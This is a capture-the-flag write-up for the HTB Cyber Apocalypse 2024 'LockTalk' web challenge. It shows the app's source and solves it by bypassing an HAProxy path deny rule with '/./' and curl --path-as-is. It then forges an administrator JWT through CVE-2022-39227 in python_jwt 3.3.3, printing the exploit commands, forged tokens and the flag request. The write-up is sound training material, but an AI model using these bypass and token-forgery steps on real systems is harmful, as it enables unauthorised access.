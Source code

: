 ```yaml
---
title: HTB Cyber Apocalypse - LockTalk
date: Sat Mar 14 11:15:54 PM +04 2024
categories: [Writeup]
tags: [ctf,htb,htb2024,htb_cyber_apocalypse_2024,web,jwt]
---
```


## Description

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Analysis

{::options parse_block_html="true" /}

<details>
<summary markdown="span">challenge/app/api/routes.py</summary>

```py
from flask import jsonify, current_app
import python_jwt as jwt, datetime
import json
import os

from app.middleware.middleware import *
from . import api_blueprint

JSON_DIR = os.path.join(os.path.dirname(__file__), 'json')

@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest", 
        "user": "guest_user"
    }
    
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})


@api_blueprint.route('/chat/<int:chat_id>', methods=['GET'])
@authorize_roles(['guest', 'administrator'])
def chat(chat_id):

    json_file_path = os.path.join(JSON_DIR, f"{chat_id}.json")

    if os.path.exists(json_file_path):
        with open(json_file_path, 'r') as f:
            chat_data = json.load(f)
        
        chat_id = chat_data.get('chat_id', None)
        
        return jsonify({'chat_id': chat_id, 'messages': chat_data['messages']})
    else:
        return jsonify({'error': 'Chat not found'}), 404


@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

</details>

<details>
<summary markdown="span">challenge/app/main/routes.py</summary>

```py
from flask import render_template

from . import main_blueprint

@main_blueprint.route('/', methods=['GET'])
def index():
    return render_template('/index.html')
```

</details>

<details>
<summary markdown="span">challenge/app/middleware/middleware.py</summary>

```py
from flask import request, jsonify, current_app
from functools import wraps
import python_jwt as jwt

def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')

            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401

            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']

                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403

                return func(*args, **kwargs)
            except Exception as e:
                return jsonify({'message': 'JWT token verification failed.', 'error': str(e)}), 401
        return wrapper
    return decorator

```

</details>

<details>
<summary markdown="span">challenge/config.py</summary>

```py
from jwcrypto import jwk
import os

class Config:
    DEBUG = False
    FLAG = "HTB{f4k3_fl4g_f0r_t35t1ng}"
    JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)
```

</details>

<details>
<summary markdown="span">challenge/run.py</summary>

```py
from app import create_app

app = create_app()
```

</details>

<details>
<summary markdown="span">conf/haproxy.cfg</summary>

```cfg
global
    daemon
    maxconn 256

defaults
    mode http

    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms

frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
    
backend backend
    balance roundrobin
    server s1 0.0.0.0:5000 maxconn 32 check

```

</details>

<details>
<summary markdown="span">conf/requirements.txt</summary>

```txt
# uwsgi
Flask
requests
python_jwt==3.3.3
```

</details>

{::options parse_block_html="false" /}

The application is based on JWT tokens, you can get token, join chat and get flag. The twist is the proxy:

```bash
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend
    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Because of this rule any reqeust from anywhere is denied to get_ticket. But this limitation only works on given path. If you add `./` in path or `//` you will end up on same endpoint, but since path dont match with the rule you can bypass proxy restrictions. 

```powershell
➜ curl http://83.136.250.41:46240/api/v1/get_ticket
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>

➜ curl http://83.136.250.41:46240/./api/v1/get_ticket
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>

➜ curl http://83.136.250.41:46240/./api/v1/get_ticket --path-as-is
{"ticket: ":"<TOKEN>"}

➜ curl http://83.136.250.41:46240//api/v1/get_ticket --path-as-is
{"ticket: ":"<TOKEN>"}
```

Cool, we have a token. Now what?

In the source code we see `JWT_SECRET_KEY` is being set by `jwcrypto`, but the application is using `python_jwt` which doesn't make sense? Why have 2 packages that do almost the same thing. In the `requirements.txt` we see that this package is explicitly version 3.3.3 (`python_jwt==3.3.3`)

> **[python_jwt](https://pypi.org/project/python-jwt/)**: _Note:  Versions 3.3.4 and later fix a  [vulnerability](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp)  (CVE-2022-39227) in JSON Web Token verification which lets an attacker with a valid token re-use its signature with modified claims. CVE to follow. Please upgrade!_

PoC: [SPLOITUS: CVE-2022-39227](https://sploitus.com/exploit?id=EA5AF022-9630-5498-B523-B8505AD5BCA6)

## Solution

Use the PoC script to change JWT token, token must be retrieved from get_ticket endpoint (important!) and change role to `administrator` to get flag.

```bash
└─$ py cve_2022_39227.py -j 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.HCGrI1HWDDeHAbNySq1n-vIxVuBpw_HXvVZgIVpFbxNP1h0lkIOiUnPy1BKnIDhEYd44uHFv5BbZB9WiU5LbmCs7WwfkQLLAsOKDsz_KqCdpiWtY2X-kZCg-ZPJj8fOpbU3eosI0y-dQh15m3SrGLzvr3oAcsUdJt8fGB34amDXAPCR46XvXqrYw9ITdYlBv72fdb0H1wbYFgjcZTntD1ecaObnWQ_QrDnwvowxeapANUJceuWCBlpu_J31Re0goYuaP5brseyEEG8rfvx1BSSnTJaangVIilP2VBPxQhXWnjbeeJx4M_88puZ824LKIbLo0aRtuG03TMPFc4c5UrQ' -i 'role=administrator,user=administrator'
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710347024, 'iat': 1710343424, 'jti': 'czpjYcJ3n6rB_kex4ojsuA', 'nbf': 1710343424, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710347024, 'iat': 1710343424, 'jti': 'czpjYcJ3n6rB_kex4ojsuA', 'nbf': 1710343424, 'role': 'administrator', 'user': 'administrator'}
[+] Fake payload encoded: eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5pc3RyYXRvciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5pc3RyYXRvciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HCGrI1HWDDeHAbNySq1n-vIxVuBpw_HXvVZgIVpFbxNP1h0lkIOiUnPy1BKnIDhEYd44uHFv5BbZB9WiU5LbmCs7WwfkQLLAsOKDsz_KqCdpiWtY2X-kZCg-ZPJj8fOpbU3eosI0y-dQh15m3SrGLzvr3oAcsUdJt8fGB34amDXAPCR46XvXqrYw9ITdYlBv72fdb0H1wbYFgjcZTntD1ecaObnWQ_QrDnwvowxeapANUJceuWCBlpu_J31Re0goYuaP5brseyEEG8rfvx1BSSnTJaangVIilP2VBPxQhXWnjbeeJx4M_88puZ824LKIbLo0aRtuG03TMPFc4c5UrQ"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5pc3RyYXRvciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAzNDcwMjQsImlhdCI6MTcxMDM0MzQyNCwianRpIjoiY3pwalljSjNuNnJCX2tleDRvanN1QSIsIm5iZiI6MTcxMDM0MzQyNCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"HCGrI1HWDDeHAbNySq1n-vIxVuBpw_HXvVZgIVpFbxNP1h0lkIOiUnPy1BKnIDhEYd44uHFv5BbZB9WiU5LbmCs7WwfkQLLAsOKDsz_KqCdpiWtY2X-kZCg-ZPJj8fOpbU3eosI0y-dQh15m3SrGLzvr3oAcsUdJt8fGB34amDXAPCR46XvXqrYw9ITdYlBv72fdb0H1wbYFgjcZTntD1ecaObnWQ_QrDnwvowxeapANUJceuWCBlpu_J31Re0goYuaP5brseyEEG8rfvx1BSSnTJaangVIilP2VBPxQhXWnjbeeJx4M_88puZ824LKIbLo0aRtuG03TMPFc4c5UrQ"}
```

Get the flag with modified auth cookie. Via burp or just curl.

```bash
└─$ curl -H 'Authorization: {"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA0NDEyNjcsImlhdCI6MTcxMDQzNzY2NywianRpIjoiWnNKVGtuaWptZE96MHFyMzlGVC1EUSIsIm5iZiI6MTcxMDQzNzY2Nywicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiYWRtaW5pc3RyYXRvciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA0NDEyNjcsImlhdCI6MTcxMDQzNzY2NywianRpIjoiWnNKVGtuaWptZE96MHFyMzlGVC1EUSIsIm5iZiI6MTcxMDQzNzY2Nywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"U6bVY1Iz9CmCLfOvoELZszsLjK-dq8U3oPfFWBMPy0YD4iaPIC8uLy-CSFRs_iRWkCVwCyPSAoaf8T3JLjEUeXqaiP7qGzAV_xxJMLUMV-puylSbYxg2ALWKX386ZD_nlA87P_9Ubf0jX9EKj3811yn0Q0pdSF4r66ENPj7hDUjukU5GoIHPpSbB0VsjmQ1lfk8re2uUcFgvMkChfYEib7_gXnaj42Idd6f0tFvUjiFj4NR2wbL5uBnaKE6Ed4sYOwMd5oPjK_-qQ5fFVlnJl8MFXQwoFlV2IbYwNK5jKrTFCUd2PGgCRC783ki20S-IUOzNeMiwKEd5stwvKD_l4w"}' 83.136.250.41:46240/api/v1/flag
{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

> Flag: HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
{: .prompt-tip }